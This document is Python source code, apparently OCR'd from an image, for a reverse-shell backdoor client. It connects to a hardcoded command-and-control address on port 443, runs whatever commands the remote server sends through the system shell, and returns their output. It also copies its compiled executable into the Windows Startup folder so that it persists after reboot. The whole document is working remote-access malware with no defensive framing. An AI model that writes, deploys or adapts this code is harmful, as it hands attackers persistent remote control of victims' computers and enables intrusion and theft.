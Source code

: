 import socket
import subprocess
import threading
import time
import os

CCIP = "10.0.0.103"
CCPORT = 443

current_directory = os.getcwd()  # Diretório atual do cliente

def autorun():
    filen = os.path.basename(__file__)
    exe_file = filen.replace(".py", ".exe")
    os.system("copy {} \"%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\"".format(exe_file))

def conn(CCIP, CCPORT):
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((CCIP, CCPORT))
        return client
    except Exception as error:
        print(error)

def cmd(client, data):
    global current_directory  # Use o diretório global

    try:
        if data.startswith("cd "):
            # Trate o comando 'cd' separadamente para alterar o diretório atual
            new_directory = data[3:]
            try:
                os.chdir(new_directory)
                current_directory = os.getcwd()
                client.send(current_directory.encode() + b"\n")
            except Exception as e:
                client.send(str(e).encode() + b"\n")
        else:
            proc = subprocess.Popen(data, shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
            output = proc.stdout.read() + proc.stderr.read()
            client.send(output + b"\n")
    except Exception as error:
        print(error)

def execute_command(command, client):
    if command.startswith("!kill"):
        client.send(b"Conexao fechada!\n")
        return False
    else:
        cmd(client, command)
    return True

def cli(client):
    try:
        global current_directory  # Use o diretório global

        while True:
            client.send(current_directory.encode() + b"> ")  # Envie o diretório atual como prompt
            data = client.recv(1024).decode().strip()
            if not execute_command(data, client):
                break
    except Exception as error:
        client.close()

if __name__ == "__main__":
    autorun()
    while True:
        client = conn(CCIP, CCPORT)
        if client:
            cli(client)
        else:
            time.sleep(3)
